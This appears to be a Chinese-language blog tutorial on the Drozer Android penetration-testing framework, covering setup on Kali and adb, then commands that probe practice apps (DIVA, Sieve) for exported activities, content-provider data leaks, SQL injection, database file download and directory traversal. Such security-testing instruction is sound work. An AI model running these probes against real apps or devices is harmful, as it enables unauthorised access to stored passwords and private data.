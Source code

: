 ```yaml
---
layout:     post
title:      Android渗透框架-Drozer教程
subtitle:   创建多窗口
date:       2019-04-05
author:     蓝胖
header-img: img/post-bg-2019-04-05.jpg
catalog: true
tags:
    - Android
    
  
---
```


>“我相信未来我们会生活在一个数据被时时监控的时代，被企业出于商业目的监控，被黑客出于牟利目的监控。这就像我们每个人都赤身露体行走在光天化日之下一样，想想就会让人不舒服。如果没有合理的法律和有效的技术保护手段，这将是最糟糕的时代。
但这个时代终将到来，不管我们是否喜欢它，只能做好迎接它的准备，不适者将被淘汰。我们能做的，是尽自己的微薄之力，按照我们的想法，将这个即将到来的时代塑造得更加美好”

# Kali安装Drozer
````python
root@kali:~# git clone https://github.com/mwrlabs/drozer/
root@kali:~# cd drozer/
root@kali:~/drozer# python2 setup.py build
root@kali:~/drozer# python2 setup.py install
````


[![AR443Q.png](https://s2.ax1x.com/2019/04/05/AR443Q.png)](https://imgchr.com/i/AR443Q)
# Kali安装adb
````python
root@kali:~# apt-get install android-tools-fastboo
root@kali:~# apt-get install android-tools-adb
````
[![AR4cHP.png](https://s2.ax1x.com/2019/04/05/AR4cHP.png)](https://imgchr.com/i/AR4cHP)
 
# 手机安装agent
agent下载地址：https://github.com/mwrlabs/drozer/releases/download/2.3.4/drozer-agent-2.3.4.apk
使用adb将agent安装到手机。
安装完成后，手机打开agent
### 端口转发
使⽤adb进⾏端⼝转发，转发到Drozer使⽤的端⼝31415。  **adb forward tcp:31415  tcp:31415**
# 运行Drozer

**drozer console connect**
[![AR4ynI.png](https://s2.ax1x.com/2019/04/05/AR4ynI.png)](https://imgchr.com/i/AR4ynI)


# 常用命令
```python
#列出所有模块
list
app.activity.forintent                   Find activities that can handle the given intent                           
app.activity.info                        Gets information about exported activities.                                    
app.activity.start                       Start an Activity                                                              
app.broadcast.info                       Get information about broadcast receivers                                      
app.broadcast.send                       Send broadcast using an intent                                                 
app.broadcast.sniff                      Register a broadcast receiver that can sniff particular intents  
```
```python
#列出设备中所有已安装的包
run app.package.list
```
[![AR46Bt.png](https://s2.ax1x.com/2019/04/05/AR46Bt.png)](https://imgchr.com/i/AR46Bt)

```python
#搜索包名
run app.package.list -f [app name]
```
[![AR4rjA.png](https://s2.ax1x.com/2019/04/05/AR4rjA.png)](https://imgchr.com/i/AR4rjA)

```python
#显示包的详细信息
run app.package.info -a [app name]
```
[![AR4RN8.png](https://s2.ax1x.com/2019/04/05/AR4RN8.png)](https://imgchr.com/i/AR4RN8)

```python
#查看包的可攻击点
run app.package.attacksurface [app name]

```
[![AR42Af.png](https://s2.ax1x.com/2019/04/05/AR42Af.png)](https://imgchr.com/i/AR42Af)

```python
#显示 manifest 文件
run app.package.manifest [app name]
run app.package.manifest jakhar.aseem.diva
```
[![AR4LNT.png](https://s2.ax1x.com/2019/04/05/AR4LNT.png)](https://imgchr.com/i/AR4LNT)


# 四大组件
## 一、activity 界面
> 应用程序中，一个Activity通常就是一个单独的屏幕，它上面可以显示一些控件也可以监听并处理用户的事件做出响应。 Activity之间通过Intent进行通信。在Intent的描述结构中，有两个最重要的部分：动作和动作对应的数据。

使用apktool反编译出安装包的AndroidManifest.xml文件，可看到将activity的exported设置为true。说明存在被导出的分险
[![AR4W4S.md.png](https://s2.ax1x.com/2019/04/05/AR4W4S.md.png)](https://imgchr.com/i/AR4W4S)

```python
#查看对外的activity组件信息
run app.activity.info -a app_name
run app.activity/broadcast/Service/provider.info -a app_name
```

[![AR4Ijs.md.png](https://s2.ax1x.com/2019/04/05/AR4Ijs.md.png)](https://imgchr.com/i/AR4Ijs)

```python
#使用app.activity.start进行漏洞测试，弹出内部功能，说明存在越权漏洞
run app.activity.start --component [app_name]  [acitvity_name]
run app.activity.start --component com.huahua.testinh  com.huahua.testing.test
```

[![AR4h9g.md.png](https://s2.ax1x.com/2019/04/05/AR4h9g.md.png)](https://imgchr.com/i/AR4h9g)

## 二、Broadcast Receiver 应用进程通信
> BroadcastReceive广播接收器应用可以使用它对外部事件进行过滤只对感兴趣的外部事件(如当电话呼入时，或者数据网络可用时)进行接收并做出响应。广播接收器没有用户界面。然而，它们可以启动一个activity或serice 来响应它们收到的信息，或者用NotificationManager来通知用户。通知可以用很多种方式来吸引用户的注意力──闪动背灯、震动、播放声音等。一般来说是在状态栏上放一个持久的图标，用户可以打开它并获取消息。



## 三、Service  后台服务

> 一个Service 是一段长生命周期的，没有用户界面的程序，可以用来开发如监控类程序。较好的一个例子就是一个正在从播放列表中播放歌曲的媒体播放器。在一个媒体播放器的应用中，应该会有多个activity，让使用者可以选择歌曲并播放歌曲。

## 四、Content Provider 应用数据管理
> android平台提供了Content Provider使一个应用程序的指定数据集提供给其他应用程序。这些数据可以存储在文件系统中、在一个SQLite数据库、或以任何其他合理的方式。其他应用可以通过ContentResolver类从该内容提供者中获取或存入数据。只有需要在多个应用程序间共享数据是才需要内容提供者。

#### 信息泄露利用
```python
#扫描并获取Content Provider信息，并列出了可访问内容URI的列表和路径：
run scanner.provider.finduris -a app_name
```

[![AR4Tun.png](https://s2.ax1x.com/2019/04/05/AR4Tun.png)](https://imgchr.com/i/AR4Tun)

```python
#查询或修改数据库中的数据，发现存在数据泄露问题，访问uri可看到一些敏感信息
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

[![AR45cj.md.png](https://s2.ax1x.com/2019/04/05/AR45cj.md.png)](https://imgchr.com/i/AR45cj)


#### SQL注入漏洞


```python
#同样content可能导致注入问题。使用以下语句进行测试发现报错，说明存在SQL注入漏洞。
 run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/
--projection "'" 

 run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/
--selection "'" 
```
[![AR4HH0.png](https://s2.ax1x.com/2019/04/05/AR4HH0.png)](https://imgchr.com/i/AR4HH0)
##### 注入点位置进行扫描
```python
run scanner.provider.injection -a  com.mwr.example.sieve
```

[![AR4qEV.png](https://s2.ax1x.com/2019/04/05/AR4qEV.png)](https://imgchr.com/i/AR4qEV)

##### 文件下载
```python
run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data
#执行成功后应该回显以下内容
/data/com.mwr.example.sieve/databases/database.db /home/user/database.db 
Written 24576 bytes
```
##### 目录遍历
```python
 run scanner.provider.traversal -a com.mwr.example.sieve
```
[![AR47Bq.png](https://s2.ax1x.com/2019/04/05/AR47Bq.png)](https://imgchr.com/i/AR47Bq)
